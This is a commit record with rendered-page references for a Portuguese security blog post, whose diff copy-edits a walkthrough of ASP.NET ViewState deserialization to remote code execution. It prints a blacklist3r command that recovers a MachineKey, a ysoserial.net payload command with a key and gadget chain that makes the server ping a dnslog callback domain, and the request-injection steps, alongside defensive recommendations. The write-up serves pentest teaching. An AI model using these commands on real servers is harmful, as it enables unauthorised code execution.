

Before and after one commit to inferigang/inferigang.github.io, a Jekyll site: the page built from _posts/2023-08-03-viewstate-deserialization-to-rce.md, in a window 1280 px wide and 1400 px high, scrolled down 2707 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the table of contents is made by our own code; some of the changed text lies outside the part shown.

Commit message:
Update 2023-08-03-viewstate-deserialization-to-rce.md

````diff
--- a/_posts/2023-08-03-viewstate-deserialization-to-rce.md
+++ b/_posts/2023-08-03-viewstate-deserialization-to-rce.md
@@ -49,45 +49,44 @@
 5. PoC Exploit.
 6. Recomendações.
 7. Conclusão.
-
 # 1) O que é o VIEWSTATE?
 
 O ViewState é um mecanismo incorporado na plataforma ASP.NET para persistir elementos da interface do utilizador e outros dados em pedidos sucessivos. Os dados a serem mantidos são serializados pelo servidor e transmitidos através de um campo de formulário oculto. Quando são lançados de volta ao servidor, o parâmetro ViewState é desserializado e os dados são recuperados.
 
 # 2) Introdução!
 
-Estava realizando um pentest para um amigo em um ambiente, e acabo me deparando com um webserver onde utilizava o Framework "Microsoft ASP.NET", e  neste momento ao analisar o codigo fonte usando o view-source do navegador percebi que tinha o "__VIEWSTATES" e "__VIEWSTATEGENERATOR", mas uma coisa que chamou a minha atenção foi que ao atualizar a pagina eles não se alteravam.
+Estava realizando um pentest em um ambiente real (permitido) para o meu amigo, e acabei me deparando com um servidor web onde utilizava o Framework 'Microsoft ASP.NET'. Neste momento, ao analisar o código-fonte usando o view-source do navegador, percebi que havia os '__VIEWSTATES' e '__VIEWSTATEGENERATOR'. Porém, o que chamou a minha atenção foi que ao atualizar a página eles não se alteravam.
 
 <img src="/assets/img/Pasted image 20230802113354.png">
 <img src="/assets/img/Pasted image 20230802113553.png">
 
-Após isso utilizei a extensão "ViewStateDecoder"[1], que pode ser utilizado no BurpSuite. Após a instalação da extensão peguei o valor do viewstate que estava no website e fiz um decode, e assim percebendo que conseguimos decodar e que o MAC não esta habilitado. o que dificultaria o processo.
+Após isso, utilizei a extensão 'ViewStateDecoder'[1], que pode ser utilizada no BurpSuite. Após a instalação da extensão, obtive o valor do ViewState que estava no website e fiz uma decodificação, percebendo que conseguimos decodificar e que o MAC não está habilitado. Isso dificultaria o processo.
 
 <img src="/assets/img/Pasted image 20230802185338.png">
 
-Um dos fatos interessante é se deve ao fato desse viewstate poder ser controlado por qualquer pessoa para desserializar as informações sensíveis nele contidas, ou mesmo passar um viewstate malicioso para o processo de desserialização (isto será demonstrado mais tarde).
+Um dos fatos interessantes deve-se ao fato de que esse ViewState pode ser controlado por qualquer pessoa para desserializar as informações sensíveis nela contidas, ou mesmo passar um ViewState malicioso para o processo de desserialização (isso será demonstrado mais tarde).
 
 # 3) Obtendo a MachineKeys!!!
 
-Vamos utilizar o blacklist3r que pode ser encontrado nos exemples do "badsecrets"[2]. Para realizar o BruteForce no VIEWSTATES e conseguir a MachineKeys validationkey  e descobrir o tipo de validationAlgo vamos utilizar o comando abaixo. nota-se que colocamos o viewstate e o viewstategenerator que foi pego no view-source do website.
+Vamos utilizar o blacklist3r, que pode ser encontrado nos exemplos do "badsecrets"[2]. Para realizar o BruteForce no ViewState e conseguir a MachineKeys validationkey e descobrir o tipo de validationAlgo, vamos utilizar o comando abaixo. Note que inserimos o ViewState e o ViewStateGenerator que foram obtidos do view-source do website.
 
 ```
 python3 blacklist3r.py --viewstate /wEPDwUJOTE2MDg4OTExZGQldI9l1U1eHRoGgWNNqx8PZyM3NQ== -g 540E5640
 ```
 
-Após montarmos o comando a ser utilizado vamos executa-lo... e conseguimos com sucesso a validationkey e o validationAlgo!!! =)
+Após montarmos o comando a ser utilizado, nós vamos executá-lo... e conseguimos com sucesso a validationkey e o validationAlgo!!! =)
 
 <img src="/assets/img/Pasted image 20230802110656.png">
 
-Obtivemos a validationkey com sucesso, e também percebemos que o algoritmo de encriptação é SHA1. Essas informações que obtivemos agora será muito útil quando formos preparar o nosso payload!!!
+Obtivemos a validationkey com sucesso e também percebemos que o algoritmo de criptografia é SHA1. Essas informações que obtivemos agora serão muito úteis quando formos preparar o nosso payload!!!
 
 # 4) Preparando o Payload!!!
 
-Agora vamos utilizar o ysoserial.net[3] para gerar um payload serializado. Nota-se que no primeiro parâmetro setamos que o tipo de plugin que será para o ViewState, em seguinda o tipo de gadget chain, e em seguida comando a ser executado na maquina, o valor que estava no __ViewStateGenerator, o tipo de algoritimo do validationAlgo e por fim a nossa validationKey do MachineKeys.
+Agora vamos utilizar o ysoserial.net[3] para gerar um payload serializado. Note que no primeiro parâmetro definimos o tipo de plugin que será usado para o ViewState, em seguida, o tipo de gadget chain e, posteriormente, o comando a ser executado na máquina. Na sequência, incluímos o valor que estava no __ViewStateGenerator, o tipo de algoritmo do validationAlgo e, por fim, a nossa validationKey do MachineKeys.
 
-O comando a ser executado será um PING em dos nosso subdomains gerados no dnslog[4], mas poderíamos ter utilizado outro como por exemplo o interactsh[5].
+O comando a ser executado será um PING em um de nossos subdomains gerados no dnslog[4], mas poderíamos ter utilizado outro, como por exemplo o interactsh[5].
 
-o comando final a ser utilizado ficou desta forma:
+O comando final a ser utilizado ficou desta forma:
 
 ```
 ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "ping qlsqqg.dnslog.cn" --generator=540E5640 --validationalg="SHA1" --validationkey="F9D1A2D3E1D3E2F7B3D9F90FF3965ABDAC304902"
@@ -97,22 +96,22 @@
 
 <img src="/assets/img/Pasted image 20230802114402.png">
 
-Pronto, apos executar o nosso comando já pronto conseguimos o nosso payload serializado para ser utilizado.. vamos para a melhor parte!!! =D
+Pronto! Após executar o nosso comando, já pronto, conseguimos o nosso payload serializado para ser utilizado... vamos para a melhor parte!!! =D
 # 5) PoC Exploit
 
-Chegamos na melhor parte... neste momento fui em um campo de busca do website localizado na "Home.aspx" e abri o Burp Suite e interceptei o request POST. alterei o __VIEWSTATE original e coloquei o nosso que foi gerado no ysoserial.net.
+Chegamos na melhor parte... Neste momento, fui em um campo de busca do website localizado na "Home.aspx" e abri o Burp Suite, interceptando o request POST. Alterei o __VIEWSTATE original e coloquei o nosso, que foi gerado no ysoserial.net.
 
-Observação: poderíamos ter simplesmente colocado um **```/Home.aspx?__VIEWSTATES=PAYLOAD-YSOSERIAL```** na url do website, mas fazer de um jeito mais "PROFISSIONAL", e evitar algum possível problema que poderia aparecer pela falta de outros parâmetros e seus valores.
+Observação: poderíamos ter simplesmente colocado um **`/Home.aspx?__VIEWSTATES=PAYLOAD-YSOSERIAL`** na URL do website, mas optamos por fazer de um jeito mais "PROFISSIONAL" e evitar algum possível problema que poderia surgir pela falta de outros parâmetros e seus valores.
 
 <img src="/assets/img/Pasted image 20230802222944.png">
 
-Agora vamos no DNSLOG onde o nosso subdomain foi gerado, mas lembre-se que no nosso payload o comando a ser executado é um PING no nosso dominio do dnslog... Agora vamos enviar o request!!!
+Agora vamos no DNSLOG onde o nosso subdomínio foi gerado, mas lembre-se de que no nosso payload o comando a ser executado é um PING no nosso domínio do dnslog... Agora vamos enviar o request!!!
 
 <img src="/assets/img/Pasted image 20230802114816.png">
 
-Observamos que conseguimos executar o comando na maquina que hospeda o webserver, assim conseguindo validar o nosso RCE. O tipo de técnica a ser usada para explorar esse tipo de RCE é o **Out of Band Exploitation (OOB)**.
+Observamos que conseguimos executar o comando na máquina que hospeda o webserver, assim conseguindo validar o nosso RCE. O tipo de técnica a ser usada para explorar esse tipo de RCE é o **Out of Band Exploitation (OOB)**.
 
-A técnica Out-Of-Band (OOB) [6] fornece a um atacante uma forma alternativa de confirmar e explorar uma vulnerabilidade que, de outra forma, é "cega". Numa vulnerabilidade cega, o atacante não obtém o resultado da vulnerabilidade na resposta direta ao website vulnerável. As técnicas OOB requerem frequentemente que o server vulnerável gere um pedido TCP/UDP/ICMP de saída, o que permitirá a um atacante exfiltrar dados.
+A técnica Out-Of-Band (OOB) [6] fornece a um atacante uma forma alternativa de confirmar e explorar uma vulnerabilidade que, de outra forma, é "cega". Em uma vulnerabilidade cega, o atacante não obtém o resultado da vulnerabilidade na resposta direta do website vulnerável. As técnicas OOB frequentemente requerem que o servidor vulnerável gere um pedido TCP/UDP/ICMP de saída, o que permitirá ao atacante exfiltrar dados.
 # 6) Recomendações
 
 A lista seguinte mostra como defender os riscos deste ataque:
@@ -125,9 +124,9 @@
 
 # 7) Conclusão
 
-Vimos como o ViewStates pode ser explorando e uma breve explicação sobre a técnica de exploração **Out of Band Exploitation (OOB)**. Deixarei abaixo alguns conteúdos sobre exploração em ViewStates [7]-[8]-[9]. Bom, estamos no fim deste paper, espero que realmente tenham gostado, se tiverem qualquer duvida estou disposto a ajudar, basta entrar em contato comigo.
+Vimos como o ViewState pode ser explorado e uma breve explicação sobre a técnica de exploração **Out of Band Exploitation (OOB)**. Deixarei abaixo alguns conteúdos sobre a exploração em ViewStates [7]-[8]-[9]. Bom, estamos no fim deste paper, espero que tenham gostado realmente. Se tiverem qualquer dúvida, estou disposto a ajudar; basta entrar em contato comigo.
 
-Obrigado por ler até aqui, e até a próxima! =)
+Obrigado por ler até aqui e até a próxima! =)
 
 ```
 ⠀⠀⠀⢰⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
````
